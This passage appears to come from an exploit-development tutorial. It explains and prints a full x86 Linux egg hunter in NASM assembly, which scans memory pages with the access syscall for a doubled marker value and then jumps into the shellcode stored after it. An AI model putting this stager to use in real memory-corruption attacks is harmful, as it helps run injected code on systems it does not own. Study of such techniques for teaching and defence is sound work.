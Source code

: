 If the second `DWORD` does contain our egg, we will load this memory address into `EDX` since this is the address that starts our desired shellcode. We then `jmp` to this memory address which will then begin the execution of our shellcode.


```nasm
        lea edx, [ebx + 0x4] ; If the second part of the egg is found, load that memory address, since our shellcode is what follows.
        jmp edx ; Execute shellcode
```


Let's see the full egg hunter shellcode:

```nasm
global _start


section .text


_start:

        ; Load our "egg" into ESI
        mov esi, 0xdeadc0de

following_page:

        or dx, 0xfff ; Load 4095 into dx

test_next:
        inc edx ; Make EDX "4096"
        mov al, 33 ; set the value of the access syscall
        lea ebx, [edx + 0x8] ; Load the address of the following 8 bytes
        int 0x80 ; Start the check if the memory is accessible


        cmp al, 0xf2 ; Compares the syscall value of access, and the value of the EFAULT error
        je short following_page ; If EFAULT thrown, go back and check the follwing memory page

        cmp [edx], esi ; If memory can be accessed, check for the egg inside ESI
        jnz short test_next ; Go back and keep testing if the egg wasn't found

        lea ebx, [edx + 0x4] ; If the first part of the egg is found, load the next DWORD into ebx
        cmp [ebx], esi ; Compare the DWORD to the first part of the EGG
        jnz short test_next ; Go back if the next DWORD does not contain the egg (this is to avoid false positives).

        lea edx, [ebx + 0x4] ; If the second part of the egg is found, load that memory address, since our shellcode is what follows.
        jmp edx ; Execute shellcode
```


